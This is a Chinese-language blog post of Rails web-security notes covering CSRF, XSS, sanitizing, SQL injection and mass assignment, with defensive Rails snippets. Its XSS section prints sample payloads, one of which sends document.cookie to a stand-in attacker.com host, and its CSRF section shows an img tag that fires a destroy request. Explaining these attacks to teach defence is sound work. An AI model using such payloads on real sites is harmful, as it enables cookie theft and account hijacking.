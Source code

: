 ```yaml
---
layout: post
title: Web安全
permalink: web-security
---
```


Rails作为一个成熟的框架，已经默认提供了必要的安全机制，从而使得小白也能初始化出安全的站点。但安全还在人心，
只有在开发中时刻注意，才不会留下漏洞。

一定要对网站的入口慎之又慎，不要理所当然用户会按照你的设计去进行输入！

# Sessions

> HTTP is a stateless protocol. Sessions make it stateful.

Session机制是为了解决web的无状态特性，通过浏览器回传cookies来确认当前的session。


# Cross-Site Request Forgery (CSRF)
CSRF，跨站伪装请求。

CSRF的场景是：访问一个黑站，结果在里面有一个链接被浏览器自动加载访问，而这个链接可能执行是删除、关注等操作。

起因：在浏览器请求一个URL时，会顺便得到这个网站的cookies。有了cookies就有了权限，如果请求的那个
URL是在另一个网站中嵌入的，比如：

```html
<img src="http://target.com/1/destroy" />
```

那么就会执行相应的操作。浏览器并不知道这是否是用户的本意，只会按部就班的去解析，遇到img的src就去请求。

应对：对非 GET 需要验证安全令牌，只有通过才能给执行。而这个安全令牌是 Server 在 render 表单等时自己生成的。浏览器只有拥有这个令牌才可以通过 Server 的验证进行所提交的操作。

在Rails中，只需要在最顶层的ApplicationController中加入：

```ruby
protect_from_forgery with: :exception
```

然后在最顶层的layout文件的head中加入：

```
<%= csrf_meta_tags %>
```

会在 html header 里生成：

```js
<meta name="csrf-token" content="xxxxxxxxxxxx-token" />
```

当然在有 Ajax 操作时，也需要加入 X-CSRF-Token head：

```js
xhr.setRequestHeader('X-CSRF-Token', $('meta[name="csrf-token"]').attr('content'));
```


# Cross-Site Scripting (XSS)
跨站执行脚本，等于别人可以在你的网站页面上写自己的代码。十分恐怖！

流程：黑客注入代码，网站保存，受害者打开网站执行代码。

## HTML/JavaScript 注入

```html
<script>alert('Hello');</script>

<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">


<script>document.write(document.cookie);</script>
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>

```

## 防御

使用escapeHTML()或它的alias h()对二次显示的输入内存进行转义，这样：

```
字符& " < >就变成了&amp; &quot; &lt;和&rt;了。
```

能被浏览器还原，但是不能执行。

但是有时确实需要让用户输入带标签的文本啊！

使用[sanitize()](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html)，
它只运行白名单里的tag和attributes显示：

```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

# Redirection
防止跳到钓鱼网站。

# File Upload/Download
上传下载时，对文件名进行过滤，保证其安分呆在指定的目录里。

# SQL 注入
尽量使用已经封装好的查询语句，而不是自己写SQL。

# mass assigns

不要把 id 也允许用户修改。

当然默认都不会，可如果自己重新了 model 的 to_param 函数，换了 id 呢，比如 name。

一般会允许用户修改 name， 那它就能改成别人的 name 啊！

但如果进行了 uniqueness 验证，修改相同的 name id 是过不了，除非不相同，那么
在提交了修改 name id form 后，Rails 会需要调用 update 方法，就不找不到 user 了。
但还是会产生 nil error，这也算被动防御了。

而且关系都是用 id 关联的，所以影响不大。

# 参考
* http://guides.rubyonrails.org/security.html
